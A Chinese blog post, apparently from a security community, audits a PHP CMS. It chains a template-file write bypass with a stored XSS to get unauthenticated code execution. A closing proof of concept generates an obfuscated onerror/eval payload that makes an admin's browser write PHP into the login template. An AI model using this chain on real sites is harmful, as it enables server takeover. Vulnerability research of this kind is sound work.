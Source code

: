 

# 记一次代码审计中RCE挖掘及POC编写。 - 先知社区

记一次代码审计中RCE挖掘及POC编写。

* * *

记一次RCE漏洞挖掘及POC编写。

## 从危险的模板引入开始

在前面熟悉代码的过程中，可以注意到此CMS的模板引入方式。以catalog\_add.php文件为例，直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中。也许对于程序员来讲，呈现的效果是一样的，但是在php中，include的使用需要更谨慎才对。  
`include XXInclude('templets/catalog_add.htm');`  
[![](assets/1701606694-228b0aa0256de3b2a559572551b32145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112103-039a0490-7eaf-1.png)  
问题出现在src/admin/file\_manage\_control.php文件，此文件是用于处理文件操作，确保安全性和有效性。但是其中的防护策略并不完全有效，所以出现了漏洞。  
漏洞代码位于文件修改功能  
[![](assets/1701606694-185c44aaf6593c36954223618d775964.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112227-35928274-7eaf-1.png)  
查看变量处理，针对变量$activepath，处理的关键逻辑在15、16、17行。  
简单来说主要目的是规范化和确保 $activepath 变量表示的文件路径是安全的，不包含目录遍历或多余的斜杠。  
[![](assets/1701606694-66b08667a681001f793d641eedfbefe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112308-4e148d92-7eaf-1.png)  
针对变量$filename，处理的关键逻辑在44-48行。  
简单来讲目的是确保文件名是安全的，不包含目录遍历攻击所需的`..`，并限制可以上传或编辑的文件扩展名不能为(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)其中的任意项。  
[![](assets/1701606694-7ec9403ff25e7c44725e2d6daee6bf82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112328-59d8998e-7eaf-1.png)  
有防御，但是不太严。所以绕过一下即可成功修改意料之外的文件内容  
1.因为其只防御了目录遍历，所以并不限制统一目录下的文件夹名  
2.因为其限制的文件名后缀是(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)，所以此系统的模板文件的后缀htm会是合法的。  
所以，此时可以将任意文件内容写入到htm文件中，为什么要写入到htm文件？因为此系统所使用的模板文件就是htm，而我前面提到了直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中会造成的危害也就是这里体现出来：将php脚本放在htm中，当被include的时候，php脚本便会执行。  
[![](assets/1701606694-e9b0b0e742106059ffb4f3d3a4313c14.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112403-6e596096-7eaf-1.jpg)  
[![](assets/1701606694-05a895b3beb1a81844aba09e892dae0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112437-82ae018c-7eaf-1.png)

## 组合拳进行危害提升

上面可以通过模板文件写入的方式RCE了，但是很鸡肋，这样只能是后台rce，这时候想将漏洞变成未授权的RCE只需要解决两个问题：  
1 只有管理员权限才能访问/admin路由下的大部分文件  
2 只有管理员权限才有修改文件的功能权限。  
第一个问题可以通过login文件来解决，因为登录页面当然不需要任何的权限即可访问。  
第二个问题就是通过XSS、或者CSRF打出组合拳或者直接尝试找到SQL注入登录后台就能解决。  
那接下来的思路就是通过找到有效的XSS/CSRF/SQL注入，让我们能以管理员的身份写入shell到/admin/login.htm文件中。  
进入到src/admin/article\_edit.php文件，此文件为系统中的文档修改功能的逻辑处理文件。  
关注此处148行有一处疑似有问题的SQL语句。  
[![](assets/1701606694-e989d114cceedc92b32701c3f6b8fbbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112506-943e5ff0-7eaf-1.png)  
这个查询语句的目的是将一条记录跟新到名为 `$addtable`(此处即biz\_arctype) 的数据库表中，关键在于此处没有使用参数化查询来防止安全问题。

```plain
$query = "UPDATE `#@__archives` SET typeid='$typeid',typeid2='$typeid2',sortrank='$sortrank',flag='$flag',click='$click',ismake='$ismake',arcrank='$arcrank',money='$money',title='$title',color='$color',writer='$writer',source='$source',litpic='$litpic',pubdate='$pubdate',notpost='$notpost',description='$description',keywords='$keywords',shorttitle='$shorttitle',filename='$filename',dutyadmin='$adminid',weight='$weight' WHERE id='$id'; ";
```

进一步跟进dsql->ExecuteNoneQuery函数，发现系统是在执行SQL的时候做了安全检查，跟进CheckSql，发现是有针对SQL注入存在详细的过滤，不排除有绕过SQL的手法，但是此处选择另一条简单的利用思路。  
[![](assets/1701606694-96249784f7c3be5ab7b309a42a22f128.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112548-ad0094b8-7eaf-1.png)  
[![](assets/1701606694-74e80e70b883d4aad990933271f742b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120020-80033560-7eb4-1.png)  
因为没有对参数做xss的过滤，所以此时考虑利用存储型的XSS漏洞即可，去功能点用payload插入含有输出点的body参数进行测试，发现成功执行。  
[![](assets/1701606694-f22dec2282cbaadfd9530e865a8c77fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120049-9183aebe-7eb4-1.png)  
[![](assets/1701606694-fb03ec07772c23e4137cc7236f31bd81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120110-9dbac3b6-7eb4-1.png)

## 整合思路编写POC

思路也是比较清晰  
1.攻击者利用普通用户的文档编辑功能，将XSS的payload藏在文档中。  
2.管理员用户对普通用户的文档进行审核时执行XSS的payload，在不知情的情况下将shell写在/admin/login.htm文件中  
3.getshell，地址为：[http://xxx/admin/login.php](http://xxx/admin/login.php)  
POC和部分截图放在下面

```plain
//将此脚本放在浏览器控制台执行即可获得payload
var codeString = "//  获取URL\n" +
    "var url = document.URL;\n" +
    "var domainMatch = url.match(/^(https?:\\/\\/[^/]+)/);\n" +
    "var domain = domainMatch[1];\n" +
    "\n" +
    "//  获取Cookie\n" +
    "var cookieString = document.cookie;\n" +
    "\n" +
    "// 创建一个新的 form 元素\n" +
    "var form = document.createElement(\"form\");\n" +
    "\n" +
    "// 设置 form 的属性\n" +
    "form.setAttribute(\"method\", \"POST\");\n" +
    "form.setAttribute(\"action\", domain+\"/admin/file_manage_control.php\");\n" +
    "\n" +
    "// 使用正则表达式匹配 dede_csrf_token 的值\n" +
    "var csrfTokenMatch = cookieString.match(/dede_csrf_token=([^;]+)/);\n" +
    "\n" +
    "// 提取匹配到的值\n" +
    "var csrfTokenValue = csrfTokenMatch[1]; // 提取匹配到的值\n" +
    "\n" +
    "// 创建并设置隐藏字段\n" +
    "var fields = [\n" +
    "  { name: \"fmdo\", value: \"edit\" },\n" +
    "  { name: \"backurl\", value: \"\" },\n" +
    "  { name: \"_csrf_token\", value: csrfTokenValue },\n" +
    "  { name: \"activepath\", value: \"/admin/templets\" },\n" +
    "  { name: \"filename\", value: \"login.htm\" },\n" +
    "  { name: \"str\", value: \"1<?php phpinfo();?>\" },\n" +
    "  { name: \"B1\", value: \"\" }\n" +
    "];\n" +
    "\n" +
    "// 遍历字段数组并创建相应的 input 元素\n" +
    "fields.forEach(function (field) {\n" +
    "  var input = document.createElement(\"input\");\n" +
    "  input.setAttribute(\"type\", \"hidden\");\n" +
    "  input.setAttribute(\"name\", field.name);\n" +
    "  input.setAttribute(\"value\", field.value);\n" +
    "  form.appendChild(input);\n" +
    "});\n" +
    "\n" +
    "// 创建一个提交按钮并添加到 form 中\n" +
    "var submitButton = document.createElement(\"input\");\n" +
    "submitButton.setAttribute(\"type\", \"submit\");\n" +
    "submitButton.setAttribute(\"value\", \"Submit request\");\n" +
    "form.appendChild(submitButton);\n" +
    "\n" +
    "// 将 form 添加到文档中并自动提交\n" +
    "document.body.appendChild(form);\n" +
    "form.submit();";
var asciiArray = [];
for (var i = 0; i < codeString.length; i++) {
    asciiArray.push(codeString.charCodeAt(i));
}
var asciiString = asciiArray.join(',');
console.log('<img src="x"\n  onerror="eval(String.fromCharCode('+asciiString+'))">')
```

[![](assets/1701606694-afe8367cc375b2291d1ac5458d5577f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109110801-31582f6c-7ead-1.png)  
本篇文章因为一些原因（懂的都懂）。。。  
在尽量不影响阅读的前提上加了厚马，若有师傅想要源码进行复现学习的可以再联系我。
